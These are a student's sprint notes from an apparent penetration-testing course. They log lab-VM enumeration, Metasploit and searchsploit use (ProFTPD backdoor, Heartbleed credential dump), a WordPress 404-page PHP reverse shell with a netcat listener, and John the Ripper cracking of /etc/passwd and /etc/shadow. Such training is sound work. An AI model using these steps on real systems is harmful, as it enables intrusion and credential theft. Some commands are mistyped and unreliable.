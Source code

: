 ```yaml
---
title: Sprint 3
---
```

# FFA 1 - Monday

Speaking to David and Frank, they seemed to have a solid grounding in the subject. David spoke about traversing the web app that the class was invited to break. There were three main findings as part of his talk:
1) The Rest API is quite open and so through particular links he was able to find a list of user data UNENCRYPTED
2) the source code on the login page shows the user unencrypted
3) invalidating a cookie on the login page reveals the server version. David was able to cross check the common vulnerabilities on Common Vulnerabilites and Exposures (CVE) for that particular version. Frank is working through Natas. This is probably best as it is expected that we reach bandit 30 and natas 15 by the end of today.

# Monday Demo
"You cant hack what you cant see" - Darsh
"enumerate, enumerate, enumaerate" - drsh
There are many tools to breaj the machine
vuln will give you an ova, import to virtual box
setup NAT network

Attacker - 10.0.2.15
Box - 10.0.2.4

Assuming we are in the network and cant get past login
From attackers machine:
NMAP - ip addr
find ip

Enumerate subnet and find ip of victim:
nmap -sP 10.0.2.0/24 (ping scan)
        <subnet>
  
  ping ip to validate

to enumerate:
netdiscover - needs device and range

netdiscover -i etho0 -r 10.0.2.0/24
            <interface> <range>
  
to find open ports:
nmap 10.0.2.4 - not always recommended as the default script may be too noisy or not always work

nmap -sv - enumerates all the versions, e.g. which version of ftp

searchsploit proftpd 1.3.3 - shows expoits for given protocol version, in this case proftpd 1.3.3
Drsh then when to exploit-db.com and searched for proftpd1.3.3c
what was revealed was metaploit (backdoor) and RCE (compromised source backdoor)
created new directory to load directory 
cd Documents/
mkdir

used wget to load exploits

msfconsole (metasploit framework console)
Drsh doesnt recommend to use metasploit to start out - ITS TOO EASY - Jason
By googling the exploit, drsh was able to find - aldeid - wiki page
GOAL:reverse tunnel to execute commands as root

to check if root:
id;

whoami;


Breaking http:
typed in ip to browser
searchsploit httpd 2.4.18
NO RESULTS

try curl:
curl 10.0.2.4
shows cource of webpage

Directory enumaeration to see invisible directories
dirb <url> <path to wordlist (dictory of common dir names)>
 in this case /usr/share/wordlists/dirb/common.txt
  
  had to mod host.conf
  10.0.2.4 vtsec
  type in vtcsec
  
From the dirb we discovered its a wordpress page - notoriously vulnerable
wpscan is deesigned to specifically scan wordpress

Discovered user is admin admin

Drsh went for a reverse shell
found a cheat sheet through pentestmonkey

netcat
nc -nlvp 10.0.2.4 1234
-l listener
-p port number
The listener must be up first before the script can be executed


change 404 page to includea PHP reverse shell
since we're admin, the 404 page can be changed tthrough the webpage
point ip to 10.0.2.15 machine
also point to transmit tp port 1234
why?
The server needs to poin to the attacker
why is ther server trying to connect to the attacker?

The reverse shell is  trying to  create a connection without having a direct way in


upgrade shell - ropnop.com
not necessary but prettier

to check if possible to escalate to root
look at psswd and shadow
use hashcat or John the Ripper to brute force

tmux - terminal splitter




  
  
  
  
# Scrum 2

# Scrum 3

# Deliverable 1 - John the Ripper

John the Ripper is a free password cracker. 

It is used to used to execute 3 basic password attacks:

- Brute force: goes through every possible combination to find the solution
- Dictionary: a list of passwords. The tool will cross check the list with a possible match
- Rainbow: a rainbow table is a list of pre-computed hashes. Similar to a dictionary attack, the tool cross-checks with this list.

John requires that the file to crack is needed in a particular format. In a linux system, it is common to break the /etc/passwdd and /etc/shadow files where drsh ended on Monday's demo. We need to use the unshadow utility to convert the files into a text file:

```bash
/usr/sbin/unshadow /etc/passwd /etc//shadow > ~/passwordstocrack.txt
```

to perform the crack:
```bash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ~/passwordstocrack.txt
```

The above example was used directly from one of a website but I will do my best to explain the syntax.
/usr/sbin/john - initiates JtR
--wordlist=<path to list> - tells JtR to use a dictionary. In this case, the rockyou.txt file was used which is a list of common compromised passwords from the web.
~/passwordstocrack.txt - the file containing of passwords for us to crack

Deliverable 2

Deliverable 3


# Wednesday Industry
Deloitte
If both vms are on NAT, they should be able to interact

What is Pentesting?
Think like criminals
advide clients on hoe to imporve security
art & science

what do we do?
meetings
talk about what to test
reporting - findings and solutions

Physical - locks, cctv, elevators
Human - social engineering, 'forgotten link'
Cyber - 

Infrastructure - internal network, wifi, windows auth systems
Web Apps
Mobile Apps
Physical and social engineering
Red teaming
Citrix/Kiosk breakout

XSS
Find apache cred folder through text box
using xss to root
using expliot-db 

Database weaknesses
1) Create account
2) add it to admin group

Demonstrated a social engineering ploy executed on a company. They told them that ip's from Russia and Turkey were attacking them. Proxy auth was used to snatch the employees creds. On their end, they saw ip 1:: and the employee creds in plaintext.
They also mentioned hacking kiosks through navigating to a sight using a webpage that allows file uploads. Through this, a malicious shell can be injected through an open usb port and crack passwords

Red Teaming
breaking into a building

Pentesting vs Red eaming
Specific                Realistic
Limited Scope           Relevent       
Narrow focus            Readiness

Tools
Physical
Proxmark3 Card Resder
Low freq antenana

Metasploit
Powershell empire

power bank

ifconfig - find ip of machine
-T4 specifies speed
netdiscover - find alike hosts
nmaps -sSV -n -T4 -p 4949 192.168.119.135
make sure to specify protocol and port
HTTPS
sslscan <ip:port>
tls not running properly
nmap --script=ssl-heartbleed -p 4949 -T4 192.168.119.135

msfdb run - run metasploit
search heartbleed
use <path to module>
        >option
        >set RHOSTs target ip
        >run - will scan by defualt
        set action DUMP
        >run
        strings <file>
        creds dumped

# Friday Deliverable
This was essentially my first big dive in attempting boxes. The skill of enumeration was my first wall and I was dedicated to break it simply by getting into walkthroughs and writeups.

I discovered ippsec, a youtuber whom does walkthroughs for retired hack the box machines. After watching a few, I realised that the enumeration is essentially the same in terms of the tools used things to look for.

I took a shot at raven2 to start off. The inital thought was to read through the walkthrough for raven1 and use that as a guide. However, I decided I'd use the skills that drsh displayed in his demo earlier in the week, as well as the methods from the deloitte team.

In going through raven2, i quickly discovered that the network settings for virtualbox weren't set up properly. How I realised was that the services that appeared as part of the nmap scan didn't seem right. So once the settings were fixed, the scan yielded a cheeky http at port 80. By instinct i accessed the webpage and navigated my way through for a textbox or something sinister. One of the links was a blog, which directed me to a wordpress page. At this point I remembered that drsh used wpscan in his demo.
